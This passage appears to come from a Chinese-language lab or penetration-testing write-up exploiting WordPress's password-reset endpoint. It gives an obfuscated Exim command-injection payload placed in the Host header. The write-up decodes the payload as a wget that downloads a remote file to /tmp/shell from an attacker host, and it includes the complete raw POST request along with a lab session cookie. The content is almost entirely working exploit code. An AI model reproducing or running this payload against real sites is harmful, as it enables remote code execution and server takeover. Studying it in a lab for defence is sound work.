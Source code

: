 ```bash
```

#### 更改host 下载恶意文件

更改抓包工具内请求头参数 host

```bash
aa(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}shell${substr{10}{1}{$tod_log}}192.168.70.4${substr{0}{1}{$spool_directory}}1.txt}} null)
```

> 命令相当于 
>
> /usr/bin/wget --output-document /tmp/shell 192.168.70.4/1.txt

![image-20241105173332368](https://image.201068.xyz/assets/11.Wordpress/image-20241105173332368.png)

```bash
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: aa(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}shell${substr{10}{1}{$tod_log}}192.168.70.4${substr{0}{1}{$spool_directory}}1.txt}} null)
Content-Length: 85
Cache-Control: max-age=0
Origin: http://192.168.70.4:6081
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.4:6081/wp-login.php?action=lostpassword
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: sensorsdata2015jssdkcross=%7B%22distinct_id%22%3A%228d70666ed7af21dfe4c17ab54c6e82e7%22%2C%22first_id%22%3A%22191078d1ccb607-079cc2afb934768-26001e51-1327104-191078d1ccc10a5%22%2C%22props%22%3A%7B%22%24latest_traffic_source_type%22%3A%22url%E7%9A%84domain%E8%A7%A3%E6%9E%90%E5%A4%B1%E8%B4%A5%22%2C%22%24latest_search_keyword%22%3A%22url%E7%9A%84domain%E8%A7%A3%E6%9E%90%E5%A4%B1%E8%B4%A5%22%2C%22%24latest_referrer%22%3A%22url%E7%9A%84domain%E8%A7%A3%E6%9E%90%E5%A4%B1%E8%B4%A5%22%7D%2C%22identities%22%3A%22eyIkaWRlbnRpdHlfY29va2llX2lkIjoiMTkxMDc4ZDFjY2I2MDctMDc5Y2MyYWZiOTM0NzY4LTI2MDAxZTUxLTEzMjcxMDQtMTkxMDc4ZDFjY2MxMGE1IiwiJGlkZW50aXR5X2xvZ2luX2lkIjoiOGQ3MDY2NmVkN2FmMjFkZmU0YzE3YWI1NGM2ZTgyZTcifQ%3D%3D%22%2C%22history_login_id%22%3A%7B%22name%22%3A%22%24identity_login_id%22%2C%22value%22%3A%228d70666ed7af21dfe4c17ab54c6e82e7%22%7D%2C%22%24device_id%22%3A%22191078d1ccb607-079cc2afb934768-26001e51-1327104-191078d1ccc10a5%22%7D; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_7190a056b1cc7873906429f8cddddb02=admin%7C1732002252%7CfbYDZeETioZFLstg3UZ7ukpRKeBB2ReH1oUE82o0eHq%7C537b96a73a75409acb793ccd24ea9ec6ec0d9e79e3f8cb951391efc4f2b4ea78; wp-settings-time-1=1730792806
Connection: keep-alive

user_login=admin&redirect_to=&wp-submit=%E8%8E%B7%E5%8F%96%E6%96%B0%E5%AF%86%E7%A0%81
```
